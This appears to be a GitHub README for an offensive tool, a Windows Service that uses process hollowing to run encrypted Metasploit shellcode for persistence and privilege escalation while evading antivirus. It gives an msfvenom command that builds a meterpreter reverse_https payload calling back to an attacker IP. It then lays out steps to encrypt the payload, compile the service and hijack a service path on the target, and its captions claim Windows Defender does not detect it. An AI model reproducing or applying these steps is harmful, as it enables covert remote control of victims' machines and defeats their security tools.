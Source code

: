 <p align="center">
    <img src="/img/8-EoupSza0CCIElrl.png" alt="Logo" width="350" height="350">
</p>
This program is a Windows Service that utilizes the 'process hollowing' technique to run shellcode. It requires the ROT-encrypted shellcode that the user will create using the HollowCrypt program. I created this because there were moments when I needed a custom and straightforward way to run Metasploit shellcode on a Windows Service for persistence/privilege escalation, and using common tools would trigger my binaries... 


## How to use it

First, we need to create our shellcode:
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.147 LPORT=443 EXITFUNC=thread -f csharp
```

Then, edit the HollowCrypt source code , compile and execute:
```
HollowCrypt.exe
```

After that, replace the encrypted shellcode in the HollowSVC source code. 
Now  compile the service in the arch of your target, setup your listener, hijack the binary/path in the target and run!

## POC
Running service with path to HollowSVC executable:
<p align="center">
  <img src="/img/legitsvc2.png" alt="legitsvc2" width="350" height="350">
</p>

Meterpreter retrieved:
<p align="center">
  <img src="/img/legitsvc3.png" alt="legitsvc3" width="700" height="150">
</p>

Defender FUD:
<p align="center">
  <img src="/img/legitsvc4.png" alt="legitsvc4" width="500" height="350">
</p>
And remember, there is always ways to improve this!
